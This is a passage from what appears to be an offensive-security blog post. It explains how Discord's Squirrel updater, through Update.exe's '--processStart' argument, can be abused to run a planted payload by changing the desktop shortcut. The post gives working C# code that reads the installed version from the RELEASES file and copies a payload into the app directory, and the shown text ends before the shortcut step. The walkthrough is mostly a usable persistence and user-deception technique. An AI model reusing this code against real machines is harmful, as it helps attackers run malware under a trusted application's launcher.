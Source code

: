 ```yaml
---
title: "Using Squirrel Framework to escalate privileges"
categories:
tags:
  - squirrel-framework

head:
  og_image: "https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2FXU38zNUjuKfIqwvKrPY9%2F00143-2626686512.png?alt=media&token=2d9f8d64-4a11-4b43-870a-12646885a4b8"
---
```


The [Squirrel framework](https://github.com/Squirrel/Squirrel.Windows) can be used to trick the user and escalate privileges. Keep in mind that this is no vulnerability in Squirrel, we are just taking advantage of how it works.

In this example we will check Discord, which uses Squirrel for updating.

By checking out the Desktop shortcut that is created during installation, we can see an interesting argument passed to the Update.exe

<div style="text-align: center">
    <img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2FiJLHQNak3q7BAm6FeVrJ%2Fimage.png?alt=media&token=18840807-3d35-4a5c-9e1c-39d341d31ef2"/>
</div>

<p>The argument "--processStart" as per the documentation "Start an executable in the latest version of the app package".</p>

So what if we place a payload in the app directory, change the shortcut an run it?

<div style="text-align: center">
    <img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2FLJkoTumaUAFTM734DdXH%2Fimage.png?alt=media&token=c60d0413-5e33-456b-ad81-00675e5f4d53"/>
</div>

<p>Our payload runs:</p>

<div style="text-align: center">
    <img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2F6hcO8GNGP30qPD8F74kC%2Fimage.png?alt=media&token=7e8977d6-a96a-4c29-ab31-47ecf46e167d"/>
</div>

<p>So to create our little POC we need a few things:</p>

1. Find the latest version of the app package.
2. Place our payload on the latest app package directory.
3. Change the Shortcut to lunch our payload instead of the discord binary.


<h2>Finding the latest version of the app package</h2>

The version of the app is inside a file located on: ``%localappdata%\Discord\packages\RELEASES`` 

If we check the contents of this file, we have something like this: 
``230E51FC4929ACDC6DF44F0BA88B82316DDC97BF discord-updater-1.0.9013.nupkg 166474477``

What we need is this value here: ``1.0.9013``, to do this we can use regex and extract it:
```csharp
private string GetVersion(string fullPath)
{
    string releasesFilePath = Path.Combine(fullPath, "packages", "RELEASES");

    if (File.Exists(releasesFilePath))
    {
        string content = File.ReadAllText(releasesFilePath);

        string pattern = @"\d+(\.\d+)+";
        Match match = Regex.Match(content, pattern);

        if (match.Success)
            return match.Value;
    }

    return string.Empty;
}
```

The ``fullPath`` is the root directory of discord: ``%localappdata%\Discord``.

<h2>Placing our payload on the latest app package directory</h2>



```csharp
private void CopyPayloadToDestiny(string fullPath, string version, string payloadPath)
{
    string appDirectory = Path.Combine(fullPath, $"app-{version}");

    if (Directory.Exists(appDirectory))
        File.Copy(payloadPath, Path.Combine(appDirectory, Path.GetFileName(payloadPath)), true);
}
```